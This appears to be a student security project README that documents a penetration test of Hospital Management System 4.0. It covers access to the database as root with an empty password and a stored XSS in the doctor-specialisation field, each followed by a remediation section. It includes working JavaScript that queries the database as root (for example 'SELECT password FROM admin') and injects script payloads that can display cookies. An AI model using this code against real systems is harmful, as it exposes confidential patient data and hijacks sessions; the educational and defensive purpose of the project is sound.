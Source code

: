 # Information Security Project

Table of contents:
 - Introduction
 - Hospital Management System 4.0
 - Vulnerabilities
    - Insecure database
    - XSS attacks
- Damages
- References

## Introduction
The aim of this project is to identify a vulnerability and to write an application which performs a penetration test.
This application was build whit the basic knowledge of:
- HTML
- JavaScript
- MySql
- XSS-Attacks

The exploite I've chosen for this project is listet at the references part of this report.
To see how to get started please have a look at the file "Instructions.md".

## Hospital Management System 4.0
phpgurukul:
> Hospital Management System is a web application for the hospital which manages doctors and patients.

The sofware is based on php and uses a MySQL database.
The software offers 3 different modules which are the following:
- Admin module
- User module
- Doctor module

Each module has access to different tasks which are important for every hospital.
One of the most important tasks is the storage of personal informations of each patient.
This data is also the most interesting data for hackers.

## Vulnerabilities of the Software

### Insecure database
We already encounter the first vulnerability of the application when we've done the setup. 
As you may have noticed, you were not asked to change the security settings at any stage of 
the database setup. So it is possible for everyone on the installation server to read the database 
data with simple SQL script.
Due to this security hole it is possible to perform any action, e.g. change the admin password, 
read out the patient data or delete the entire data. 
To perform such actions it is sufficient to connect to the database with the standard authentication data:
- Username: "root"
- Password: ""

It should also be noted that the names of the tables are very easy to consult. These should be obfuscated.
Furthermore, confidential data such as passwords are not encrypted but simply stored as plain text. Here the already 
integrated function for password encryption of MySQL databases should be used.

It is also shocking that the queries to the database are integrated directly in the HTML 
and are therefore visible for all those who are familiar with the browser development tools. 
These queries should be provided in an external file. 

#### Examples from project

##### Create database connection
The following piece of code shows how to create a databse connection in JavaScript.
All you need to know for this are the standard authentication data and the name of the 
database which we know already from the setup.
``` JavaScript
function getDatabaseConnection() {
	const mysql = require('mysql');

	return mysql.createPool({
		host: "localhost",
		user: "root",
		password: "",
		database: "hms"
	});
}
```
##### Execute a SQL query
The following code shows how to execute a SQL query.
Additionally if the flag "open" is set to true it opens
the browser with the link to one of the vulnerable sites.
An example for a query could be:
```SELECT password FROM admin```

``` JavaScript
function executeQuery(sql, open = false) {
	const con = getDatabaseConnection();
	con.query(sql, function (err, result) {
		if (err) console.log("There went somthing wrong! Please try again!", newLine);
		if (open) {
			var opn = require('opn');
			opn('http://localhost/hospital/hms/admin/doctor-specilization.php');
		}
		else
			console.log(result)
		main();
	});
}
```
#### Solution
The solution to this problem is quite simple.
It would be enough to show the user how to set up the security settings of the databse
and how to change this settings also in the given php project.
An other solution would be to provide a service which sets up the environment for the client.

### XSS Attacks
Most of the input fields of the application are vulnerable to XSS attacks.
One of this fields is the field "doctorspecilization". Using basic knowledge of XSS attacks, html tables and JavaScript
you are able to add a XSS atack to the database.
Here is an example of the payload what you need to enter: ```</td><script>alert("Hello! I am a XSS attack")<script><td>````

#### Why does this work?
First of all it works because there is no check on the backend site for the input values.
The paylode we see above works because the application uses a simple html table to display the list of doctor specilizations.
Explanation of the payload:
- ```</td>```closes the cell of the table.
- ```<script></script>``` allows you to execute JavaScript.
- ```alert("Hello! I am a XSS attack")``` shows a small popup with the message "Hello! I am a XSS attack".
- ```<td>``` opens the next cell of the table to avoid an html parsing error.

#### Examples from project
Unfortunately my JavaScript basics were not good enough to create a valid HTTP request of the type "POST".
This request always ended with the server not giving me a response after I added the payload to the request. 
This could be because of security measures of the tested software or a bug on my part.
To automate the part of the XSS attack I used the vulnerabilities of the database and stored the attack directly 
into the database instead of using a HTTP request.

The following code asks the user to make a few decisions first. These decisions will determine how exactly the XSS 
attack looks like. Then the XSS attack is assembled according to the user's wishes and written to the database using 
the functions we have already seen in the previous section. This makes it possible to display the cookies, for example.  

``` JavaScript
function addXSS() {
	askForInput();
	showXSSOutputOptions();
	const outputFun = readUserInput("Please enter the output function you want to use");
	const outputMsg = readUserInput("Please enter the message you want to show or type 'cookie' if you want to see the cookies: ");
	let msg;
	let query;
	switch (outputFun) {
		case "1":
			msg = outputMsg == "cookie" ? "document.cookie" : outputMsg;
			query = `INSERT INTO doctorspecilization (specilization) VALUES ('</td><script>alert(${msg});</script><td>')`;
			executeQuery(query, true);
			break;
		case "2":
			msg = outputMsg == "cookie" ? "document.cookie" : outputMsg;
			query = `INSERT INTO doctorspecilization (specilization) VALUES ('</td><script>console.log(${msg});</script><td>')`;
			executeQuery(query, true);
		break;
		default:
			console.log("Please enter a valid input!");
			addXSS();
			break;
	}
}
```

#### Solution
To prevent a XSS attack on input fields you have to sanitize the input of the user.
You also have to pay attention where you put this input because even if you filter the 
input of the user there is no sanitazion method which is able to prevent to all XSS attacks.
One of the functions you have to remember when creating a php project with user input is
```htmlspecialchars()```. This function will convert special characters into HTML entities.

Another useful function is ```addslashes()```. This function adds slashes in attempt to prevent 
an attacker from terminating the variable assignment and appending executable code.

These are just a few basic precautions that are usually not sufficient to prevent all XSS attacks. 
A very detailed description how to prevent XSS attacks can be found [here](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html).

## Damages
A hacker attack on hospital software would naturally have serious consequences. The database contains 
private information of patients and hospital staff. Furthermore, the patients' appointments are also 
managed by this software. Such data is strictly confidential and should never fall into the wrong hands.

## References
You can find the expoit [here](https://www.exploit-db.com/exploits/47841).